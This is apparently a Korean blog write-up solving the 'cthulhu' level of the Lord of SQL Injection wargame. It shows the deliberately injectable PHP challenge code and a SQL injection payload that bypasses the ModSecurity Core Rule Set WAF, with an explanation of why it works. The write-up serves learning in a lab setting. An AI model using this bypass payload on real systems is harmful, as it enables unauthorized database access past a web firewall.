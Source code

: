 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cthulhu 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


며칠 전, 2번에 걸쳐서 `LoS`의 문제가 업데이트 되었다.  

이번이 랭킹에 이름을 올릴 수 있는 기회이길래 얼른 다 풀었다.  

까먹기 전에 정리를 해 두려 한다.  

첫 번째 문제 이름은 `cthulhu`이다.  

<!--more-->

코드는 다음과 같다.  

```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
-------------------------------------------------------------
query : select id from prob_cthulhu where id='' and pw=''
-------------------------------------------------------------

<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

문제의 소스코드 자체는 어렵지 않다.  

그런데 `ModSecurity Core Rule Set v3.1.0` 이라는 방화벽이 추가되어 있다.  

그래서 흔히 사용하는 방법으로 `SQL Injection`을 시도하면 자꾸 `Forbidden Error`가 나온다.  

때문에 방화벽을 우회 해 문제를 풀어야 한다.  

일단 나는 `ModSecurity Core Rule Set`이 뭔지를 몰라서 구글에 검색을 해 보았다.  

그러다 아래와 같은 사이트를 찾았다.  

> [https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)

여기에 적힌 방법 중 아래의 방법으로 문제를 풀 수 있었다.  

```
-1'<@=1 OR {a 1}=1 OR '
```

이 내용을 문제에 적용하면 다음과 같다.  

```
id=-1'<@=1 OR 1=1 OR '&pw=a
```

`{a 1}=1` 부분은 `1=1`로 변경했다.  

해당 구문이 이해가 되지 않아서였는데, `{a 1}=1`은 테스트 해 보면 `true`가 되며, `select {a 1}`을 하면 `1`이 나온다.  

아마도 아래의 이유 때문인 것 같은데, 정확하지 않아서 연구를 더 해봐야 알 것 같다.  

> [https://dev.mysql.com/doc/refman/5.7/en/expressions.html](https://dev.mysql.com/doc/refman/5.7/en/expressions.html)

```
{identifier expr} is ODBC escape syntax and is accepted for ODBC compatibility. The value is expr. The { and } curly braces in the syntax should be written literally; they are not metasyntax as used elsewhere in syntax descriptions.
```

어쨌든 해당 쿼리를 전달하면, 최종적으로 완성되는 쿼리는 다음과 같다.  

```
select id from prob_cthulhu where id='-1'<@=1 OR 1=1 OR '' and pw='a'
```

`where` 절의 조건을 살펴보면 크게 `id='-1'<@=1`, `1=1`, `'' and pw='a'`로 나눌 수 있을 것이다.  

먼저 첫 번째 조건인 `id='-1'<@1`의 경우, `'-1'<@1`이 `NULL`이 되면서 `id=NULL`로 만들어진다.  

당연히 `id=NULL`인 행은 없기 때문에 다음 조건으로 넘어가게 된다.  

이 때 두 번째 조건은 `1=1` 이므로 참이 되어 디비에서 값을 추출할 수 있게 된다.

문제에서는 `id`의 값이 무엇이든, `id`를 추출할 수 있기만 하면 되므로, 위의 쿼리를 통해 문제를 풀 수 있다.  

```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
---------------------------------------------------------------------------------------
query : select id from prob_cthulhu where id='-1'<@=1 OR 1=1 OR '' and pw='a'
---------------------------------------------------------------------------------------

CTHULHU Clear!
<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

`CTHULHU Clear!`
